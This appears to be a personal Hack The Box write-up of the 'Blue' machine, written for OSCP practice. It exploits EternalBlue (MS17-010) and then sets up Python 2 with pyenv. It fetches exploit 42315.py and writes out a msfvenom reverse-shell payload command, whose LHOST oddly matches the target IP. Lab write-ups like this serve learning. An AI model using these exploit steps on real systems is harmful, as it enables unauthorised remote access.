 # Blue
Name: Blue
Date:  22/09/2022 - With Metasploit &
Difficulty:  Easy
Goals:  OSCP Prep, rewrite a python exploit
Learnt: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py exists and I am grateful to Tyler from https://www.wirebiters.com/

## Recon
The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
```bash
ping -c 3 10.129.105.18  
PING 10.129.105.18 (10.129.105.18) 56(84) bytes of data.
64 bytes from 10.129.105.18: icmp_seq=1 TTL=127 time=232 ms
64 bytes from 10.129.105.18: icmp_seq=2 TTL=127 time=233 ms
64 bytes from 10.129.105.18: icmp_seq=3 TTL=127 time=221 ms

--- 10.129.105.18 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 221.410/228.976/233.237/5.364 ms
```
Even though the name of this room is very siumilar to a famous exploit,
seeing the `Windows 7 Professional 7601 Service Pack 1 microsoft-ds` in nmap of anything to means to check for Eternal Blue. But I also run other nmap scan for completeness and Vuln returns the dreaded smb-vuln-ms17-010.

## Exploit

Although metasploit has a module for this and it a quick couple of commands to execute I will perform this manually. I looked up manual exploitation of Eternal Blue and found this  article: [redteamzone](https://redteamzone.com/EternalBlue/). Following the steps layed out while being mindful this is a windows 7 exploit using old versions and implementations of python. 

```bash
searchsploit eternal
searchsploit -m 42315.py # -m copies to current working directory
```
![searchsploit](Screenshots/searchsploit.png)

The dependency missing from my VM like the guide is mysmb.
```bash
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Potentially change username and password to `'vagrant'`, ran regardless to detirmine are incompatiblities 
![concat](canonlyconcatstr.png)

I later returned to this box once more time and recognised it was considerable out of date so I tried the [huey](https://dev.to/0xhuey/manually-exploiting-ms17-010-python2-to-python3-3l2k)


```bash
# reverse_tcp for the OSCP guidelines
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.105.18 LPORT=4444 -f exe -o shell.exe
```

## Foothold

## PrivEsc

## Metapsploit
Just for sake of completion
![](metasploit.png)


## Returing to script this

After failing for hours months ago trying to covert python2 to python3 managing dependency hell seemed insane. Months ago I really want to do it in python3, but realistically for the future of python and exploits, why? So I decided to find modern solutions from others, [0xdf](https://0xdf.gitlab.io/2021/05/11/htb-blue.html) demonstrates python virtual environments something I never real knew existed or played with, which would require alot of building for not much pay off for me. I then came across https://www.wirebiters.com/hack-the-box-htb-walkthrough-blue-with-bonus-kali-initial-setup/.. where he list a Offensive Securirty repository with all the classes for all the exploits of all of searchsploit. This was like being kicked in the balls and being handed  amount of X desirable good/service tickets... WTF.. probably the must face slapping wget of my life.
```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py
```

Then after much researching!
```bash
sudo apt install -y build-essential libssl-dev zlib1g-dev libbz2-dev libreadline-dev libsqlite3-dev wget curl llvm libncurses5-dev libncursesw5-dev xz-utils tk-dev libffi-dev liblzma-dev python3-openssl git
wait
curl https://pyenv.run | bash
wait
echo '' >> ~/.zshrc
echo '# Python 2.7 required!' >> ~/.zshrc
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.zshrc
echo 'export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.zshrc
echo -e 'if command -v pyenv 1>/dev/null 2>&1; then\n  eval "$(pyenv init --path)"\nfi' >> ~/.zshrc
echo '' >> ~/.zshrc

exec $SHELL


#The below is the work of [ben leeyr](https://benleeyr.wordpress.com/2022/01/30/pyenv-installation-on-kali/) . Only changes is to use `pip2` to get `impacket` and `init`
pyenv global 2.7.18
pyenv global system
pyenv init
```
add to your shell's .rc the below is for `zsh`'s `.zshrc`
```bash
# Load pyenv automatically by appending
# the following to 
~/.zprofile (for login shells)
and ~/.zshrc (for interactive shells) :

export PYENV_ROOT="$HOME/.pyenv"
command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"
eval "$(pyenv init -)"pyenv 
```
Then
```bash
pyenv shell 2.7.18
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
sudo python2 get-pip.py
sudo pip2 install -U setuptools
sudo pip2 install impacket
```
![](rootroot.png)
